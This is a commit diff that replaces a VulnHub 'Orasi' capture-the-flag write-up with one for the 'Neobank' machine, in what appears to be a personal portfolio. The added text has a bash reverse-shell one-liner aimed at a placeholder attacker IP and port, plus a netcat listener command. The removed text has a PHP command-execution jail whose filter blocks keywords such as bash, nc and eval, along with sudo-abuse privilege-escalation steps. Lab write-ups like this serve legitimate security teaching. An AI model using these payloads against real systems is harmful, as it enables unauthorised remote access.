

Before and after one commit to kUrOSH1R0oo/porfolfio, a Markdown page: writeup/neobank.md, 3 parts joined by grey strips. Shown at 91% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/writeup/neobank.md
+++ b/writeup/neobank.md
@@ -1,12 +1,12 @@
 ---
-title: Orasi
-date: 02-21-2025
+title: Neobank
+date: 12-23-2024
 excerpt: VulnHub
-cover: ../uploads/cover_orasi.jpg
-tags: [reverse-engineering, ftp-anonymous, ssti, jinja2, sudo-misconfiguration, filter-bypass, socat, apk-reversing, hardcoded-credentials, python-code-injection, privilege-escalation, boot2root, vulnhub]
+cover: ../uploads/cover_neobank.jpg
+tags: Broken Authentication, 2FA Bypass, IDOR, Remote Code Execution, Privilege Escalation
 ---
 
-# Orasi: BOOT2ROOT CTF VULNHUB WRITEUP
+# Neobank: 1 BOOT2ROOT CTF VULNHUB WRITEUP
 
-Welcome back to another writeup! In this post, I'll be walking you through how I managed to pwn **Orasi** — a machine available on VulnHub. While **Orasi** has a reputation for being a tough box according to many in the community, I personally found it to be more approachable than expected once I broke it down step-by-step. Throughout this guide, I'll show you exactly how I tackled it. Let's dive in!!
+Welcome to my writeup on the *Neobank* machine from VulnHub. In this walkthrough, I will document the entire exploitation process as if conducting a formal penetration test. The objective is to simulate a real-world assessment by identifying and leveraging vulnerabilities to gain root access on the target system. This includes a structured approach involving initial reconnaissance, enumeration, exploitation, and privilege escalation. All steps are outlined clearly, supported with relevant tools and commands used during the engagement. This writeup aims not only to showcase the methodology but also to reinforce key principles in offensive security.
 
@@ -152,29 +196,11 @@ It turns out that we can execute a PHP script as user **kori**, next thing I did
 
-```php
-<?php
-array_shift($_SERVER['argv']);
-$var = implode(" ", $_SERVER['argv']);
+Looks like a banking system
 
-if($var == null) die("Orasis Jail, argument missing\n");
+### Discovering the Withdraw Parameter Vulnerability
 
-function filter($var) {
-        if(preg_match('/(`|bash|eval|nc|whoami|open|pass|require|include|file|system|\/)/i', $var)) {
-                return false;
-        }
-        return true;
-}
-if(filter($var)) {
-        $result = exec($var);
-        echo "$result\n";
-        echo "Command executed";
-} else {
-        echo "Restricted characters has been used";
-}
-echo "\n";
-?>
-```
+Since it's a banking system that allows balance withdrawals, let's go ahead and try withdrawing.
 
-This is the reason why it gets harder, it's clear that the script is capable of executing commands. However, if the input contains specific keywords such as **bash, eval, nc**, and similar, it triggers a warning message saying "**restricted characters have been used.**" Additionally, the use of the slash (**/**) is also blocked, preventing us from referencing full binary paths like **/bin/bash**.
+![](https://kur0sh1r0.gitbook.io/ctf-writeups/~gitbook/image?url=https%3A%2F%2F271954773-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FYsivTjPn2jLXI0ZgVqeF%252Fuploads%252Fmy3OA8LQZeohkCb4keIa%252FScreenshot%2520%281322%29.png%3Falt%3Dmedia%26token%3D91d6c5a3-ec14-4370-a0ee-c6cb4d26138b&width=768&dpr=3&quality=100&sign=9a12045e&sv=2)
 
-## Filter Bypass Using Socat
+That's odd—why did it turn negative? Seems like there's a logic flaw here. Let's launch Burp Suite and dig deeper.
 
@@ -198,12 +222,11 @@ Next thing I did is to upgrade the shell
 
----
+At this stage, the goal is to establish a reverse shell connection to gain remote access to the target system. For this, I crafted a payload designed to initiate a reverse shell using bash:
 
-# Privilege Escalation (kori → irida)
-`tags: sudo-misconfiguration, file-ownership-abuse, apk-reversing, dex2jar, procyon, hardcoded-credentials`
+`/bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'`
 
-## Vulnerability Discovered: Sudo Copy Command Abuse via File Ownership Trick
+The next step is to configure a listener on our machine using **ncat**.
 
-I've checked the sudo permissions of the user kori
+`nc -lnvp 1234`
 
-`sudo -l`
+Once the payload is delivered to the server, it is expected to establish a shell connection back to us.
 
@@ -211,5 +234,5 @@ I've checked the sudo permissions of the user kori
 
-It appears that the user kori has permission to copy an APK file from irida's home directory into their own directory.
+Notice that the payload is URL-encoded
 
-`sudo -u irida cp /home/irida/irida.apk /home/kori/irida.apk`
+Here's our listener:
 
@@ -217,7 +240,7 @@ It appears that the user kori has permission to copy an APK file from irida's ho
 
-Why permission denied?
+### Extracting Database Credentials
 
-Since we're now running commands as the user irida, we have access to the **irida.apk** file located in her home directory. However, irida doesn't have write permissions for kori's directory. To work around this, I had to modify the directory's permissions to allow write access for other users.
+Within the `/var/www/html` directory, I located a file named `main.py`. Let's examine its contents.
 
-`chmod o+w .`
+It's important to note that the MariaDB username and password are hard-coded within the script. This indicates that the system utilizes a database management system (DBMS) to store user information, including the email addresses previously discovered. The next step is to attempt logging into the database using these credentials.
 
````
Also changed, not shown: other parts of writeup/neobank.md (+162 -219 lines).
